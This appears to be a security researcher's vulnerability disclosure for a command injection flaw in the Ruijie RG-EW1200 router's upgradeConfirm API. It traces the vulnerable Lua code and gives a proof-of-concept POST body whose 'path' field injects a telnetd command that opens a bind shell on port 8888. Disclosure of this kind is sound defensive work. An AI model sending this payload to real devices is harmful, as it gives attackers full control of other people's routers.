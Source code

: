 # Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com "https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    RG-EW1200 Wireless Routers

**Affected firmware version:**    EW_3.0(1)B11P204 (the latest release version, 2023.1.18)

**Firmware download address:**    [https://www.ruijienetworks.com/support/documents/slide_77459](https://www.ruijienetworks.com/support/documents/slide_77459 "https://www.ruijienetworks.com/support/documents/slide_77459")

# Overview

A `command injection vulnerability` exists in `Ruijie Networks RG-EW1200 Wireless Routers`. Successful exploit could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

## Vulnerability point

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/system.lua`.**

In the `upgradeConfirm` function of `/usr/lib/lua/luci/modules/system.lua`. When `params.isEstAll` is empty, the parameter `params.path` is directly spliced through the format string `%q` into the variable `_shell` without checking and execute as a parameter of `forkExec`.

![](./pic/4.png)

Therefore, an attacker can inject arbitrary commands into `params.path` to gain control of the remote devices.

## Call flow

In the file `/usr/lib/lua/luci/controller/eweb/api.lua`, we can see `system.lua` corresponding `API` is `/system`.

![](./pic/1.png)

![](./pic/2.png)

Therefore, `system.lua` can be accessed via URL `/cgi-bin/luci/api/system`, and the request body can be posted as `json`.

In the `handle` function of `/usr/lib/lua/luci/utils/jsonrpc.lua`, use the `resolve` function to find the relevant function in `system.lua` corresponding to the `method` field of the `POST` request body. Then it calls `copcall` through `proxy` to run the function, and use the contents of `params` field as its parameter.

![](./pic/3.png)

# Poc

Send the following as a `POST` request to the URL `/cgi-bin/luci/api/system`. 

```
{
        "method": "upgradeConfirm",
        "params": {
            "isPersist": "aaaa"
            "path": "`telnetd -p 8888 -l /bin/sh`"
        }
}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`. From the echo information, we can judge that the command injection is successful.

![](./pic/5.png)

At this point, we use the injection command `telnetd -p 8888 -l /bin/sh` to open the corresponding `telnet` port `8888`, and directly start the shell.

The attacker can log in to the remote device directly through `telnet` and control it entirely.

![](./pic/6.png)
